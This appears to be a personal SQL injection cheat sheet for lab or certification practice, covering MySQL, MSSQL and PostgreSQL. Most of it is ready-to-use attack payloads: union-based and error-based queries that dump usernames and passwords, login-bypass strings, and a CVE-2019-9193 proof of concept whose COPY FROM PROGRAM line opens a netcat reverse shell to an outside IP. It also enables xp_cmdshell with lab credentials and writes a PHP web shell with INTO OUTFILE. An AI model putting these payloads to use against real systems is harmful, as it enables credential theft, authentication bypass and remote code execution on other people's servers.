 ## SQL
### Links

- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
- [MSSQL Cheat Sheet](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)
- [SQL Injection Cheat Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)
- [From MSSQL to RCE](https://bhavsec.com/posts/mssql-rce/)
### SQLi

Only Resources you will need to get Remote code using SQLi
### MYSQL

#### Authenticated SQLi

```
SELECT version();
SELECT system_user();
show databases;

SHOW TABLES FROM database_name;
OR
use <db_name>
show tables;
describe users; # describes columns in users' table

SELECT * from <test>.<users>; # here test is DB and the user is a table in test db
SELECT user, authentication_string FROM mysql.user WHERE user = 'test';bash
```

#### Error based SQLi
```
tom' OR 1=1 -- //
' or 1=1 in (select @@version) -- //
' OR 1=1 in (SELECT * FROM users) -- //
' or 1=1 in (SELECT password FROM users) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- // # password for admin user
```

#### Union-based SQLi

```
*** injected UNION query has to include the same number of columns in the original query
*** Data types need to be compatible between each column

1) Finding the number of Columns
' ORDER BY 1-- // # Keep incrementing value of 1 to find columns

2) Finding name, user, and version
%' UNION SELECT database(), user(), @@version, null, null -- // # %' is used for closing the search parameter 
# Assume we got 5 columns on step 1, we are using 3 columns and leaving 2 as null here

2.1) Finding name, user, and version
# Sometimes column 1 is reserved for the ID field so no proper value comes and we try this instead
' UNION SELECT null, null, database(), user(), @@version  -- //

3) Enumerating table names, column names, and db_name
' UNION SELECT null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
# 1 and 5 are kept null
# we see a table called users, let's dive into that

4) Enumrating few columns from the user table found above
' UNION SELECT null, username, password, description, null FROM users -- //
```

### MSSQL

#### Authenticated SQLi

```
SELECT @@version;
SELECT name FROM sys.databases; # master, tempdb, model and msdb are default
SELECT * FROM offsec.information_schema.tables; # Returns table for offsec db
'''
offsec
dbo
users
'''
SELECT * from testuser.dbo.users; # We select dbo table schema between the db and table name
admin lab # user # pass
guest guest  # user # pass
```

#### PostgreSQL Command Execution
##### CVE-2019-9193
[PayloadAllTheThings_PostgreSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

```
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);

COPY cmd_exec FROM PROGRAM 'id';

COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.193 4444 >/tmp/f';

SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```

#### Extra Notes I had

```
#### Line Comments

**Comments out rest of the query.**   
Line comments are generally useful for ignoring rest of the query so you don’t have to deal with fixing the syntax.

- `--` (Postgres and MS SQL and MySQL) `DROP sampletable;--` 
- `#` (MySQL) `DROP sampletable;#`

##### Line Comments Sample SQL Injection Attacks

- Username: `admin'--`
- `SELECT * FROM members WHERE username = 'admin'--' AND password = 'password'` This is going to log you as admin user, because rest of the SQL query will be ignored.


**Executing more than one query in one transaction**. This is very useful in every injection point, especially in SQL Server back ended applications.

- `;` (MS SQL)   
    `SELECT * FROM members; DROP members--`

### If Statements

Get response based on an if statement. This is **one of the key points of Blind SQL Injection**, also can be very useful to test simple stuff blindly and **accurately**.

#### MySQL If Statement

- `IF(**_condition_,_true-part_,_false-part_**)` (M) `SELECT IF(1=1,'true','false')`

#### SQL Server If Statement

- `IF **_condition_** **_true-part_** ELSE **_false-part_**` (S)   
    `IF (1=1) SELECT 'true' ELSE SELECT 'false'`

#### PostgreSQL If Statement

- `SELECT CASE WHEN **_condition_** THEN **_true-part_** ELSE **_false-part_**` END; (P)   
    `SELECT CASE WEHEN (1=1) THEN 'A' ELSE 'B'END;`

##### If Statement SQL Injection Attack Samples

`if ((select user) = 'sa' OR (select user) = 'dbo') select 1 else select 1/0` (S)   
This will throw an **divide by zero error** if current logged user is not **“sa” or “dbo”**.

## Union Injections

With union you do SQL queries cross-table. Basically you can poison query to return records from another table.

`SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members`   
This will combine results from both news table and members table and return all of them.

### Bypassing Login Screens (SMO+)

_SQL Injection 101_, Login tricks

- `admin' --`
- `admin' #`
- `admin'/*`
- `' or 1=1--`
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1--`
- `') or ('1'='1--`
- ….
- Login as different user (SM*)   
    `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

#### Finding how many columns in SELECT query by **ORDER BY** **(MSO+)**

Finding column number by ORDER BY can speed up the UNION SQL Injection process.

- `ORDER BY 1--`
- `ORDER BY 2--`
- `ORDER BY N--` _so on_

# Enabling xp_cmdshell for SQL Server 2005
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

EXECUTE xp_cmdshell 'whoami';
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
<? system($_REQUEST['cmd']); ?>

```

#### Error-Based SQL Injection

- **Goal**: To generate an error message from the SQL database.
- **Method**: Include SQL control characters or SQL code into a query.
- **Example**: Inputting `' OR 1=1 --` in a user input field. If the backend query is `SELECT * FROM users WHERE username = '[input]'`, it becomes `SELECT * FROM users WHERE username = '' OR 1=1 --'`.
- **Result**: The database returns an error or unexpected data, indicating vulnerability.

#### Union-Based SQL Injection

- **Goal**: Retrieve data from other tables.
- **Method**: Utilize the `UNION` SQL operator to combine results from multiple SELECT queries.
- **Example**: Input `UNION SELECT username, password FROM users --`.
	- ' UNION SELECT null, null, database(), user(), @@version  -- //
- **Consideration**: Columns data types and number must match between the original and UNION query.

#### Blind SQL Injection

- **Goal**: Retrieve data when no error message or data is directly returned.
- **Method**: Ask the database a true/false question and determine the answer based on the application's response.
- **Example**: Change a query to `SELECT * FROM users WHERE username = 'admin' AND 1=1 --`. If the page loads normally, the query is true. If it doesn't, the query is false.

#### Time-Based SQL Injection

- **Goal**: Gather information from a database when no data is returned to the user.
- **Method**: Use SQL commands that delay the response.
- **Example**: `'; IF (SELECT COUNT(*) FROM users) > 5 WAITFOR DELAY '0:0:10' --`. If the response is delayed, the statement is true.